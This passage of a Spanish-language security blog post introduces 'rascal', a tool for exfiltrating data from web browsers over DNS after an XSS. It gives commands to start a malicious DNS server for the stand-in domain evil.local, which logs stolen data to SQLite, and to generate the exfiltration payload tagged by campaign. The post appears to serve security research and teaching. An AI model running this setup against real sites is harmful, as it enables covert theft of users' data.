 Ahora tenemos que recoger los datos. En un primer momento pensamos en usar BIND o PowerDNS para recuperar la información de los logs, pero esto puedes ser más complejo y, por supuesto, no es un proceso rápido. 
{: style="text-align: justify;"}

Hay varios proyectos de exfiltración por DNS que permite recuperar archivos, montar túneles y demás que seguro funcionan de vicio, pero no hay ninguno pensado para exfiltración desde clientes Web. Así que hemos creado uno! !
{: style="text-align: justify;"}

Podéis descargarlo desde [Github](https://github.com/gum0x/rascal).

De momento consta de dos partes. El servidor DNS, que guardará las llamadas decodificadas en una base de datos SQLite, y el cliente, que nos mostrará los datos agrupados y nos ayudará a generar el payload que hemos trabajado en los pasos anteriores. 
{: style="text-align: justify;"}

**Nota:** tened en cuenta que necesitáis un dominio configurado para apuntar al servidor donde levantaremos nuestro DNS malicioso, para que las peticiones DNS de nuestro dominio malicioso le lleguen.  
{: style="text-align: justify;"}

#### Arrancar el servidor

Primero de todo, cread la base de datos SQLite.
{: style="text-align: justify;"}
```
sqlite3 xss.db < init.sql
```
Antes de de nada, de momento el servidor es compatible sólo con *python2 (en un futuro será compatible con python3)* y require de las librerías *dnslib* que podéis instalar mediante *pip. *Tenéis el archivo *requeriments.txt *en el repo.
{: style="text-align: justify;"}

Para arrancar el servidor hacemos:  
{: style="text-align: justify;"}
```
python rascal.py --db /tmp/xss.db --domain evil.local -i "*.evil.local IN A 10.22.3.66"
```
Donde* --domain * es el dominio que queremos capturar, *-i* es el *registro de zona *que vamos a utilizar para resolver y finalmente *--db *que es el archivo *sqlite * donde vamos a volcar los datos exfiltrados. 
{: style="text-align: justify;"}

[![Query de prueba contra rascal](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-20-at-22.43.36-1-1024x204.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-20-at-22.43.36-1.png)

Ya tenemos *rascal* listo!

### Generar payload

Con *rascalcl *podemos generar el payload.
{: style="text-align: justify;"}
```
python rascalcl.py --code -d evil.local --maxchar 10 -s demo01
```
Donde *-d* es el dominio de nuestros servidor DNS malicioso, *--maxchar* el número de caractéres máximos de cada elemento *link* utilizado y finalmente* -s *que es la etiqueta que queremos concatenar a la sesión. Así podremos categorizar las exfiltraciones por «campañas» dentro de la misma base de datos. 
{: style="text-align: justify;"}
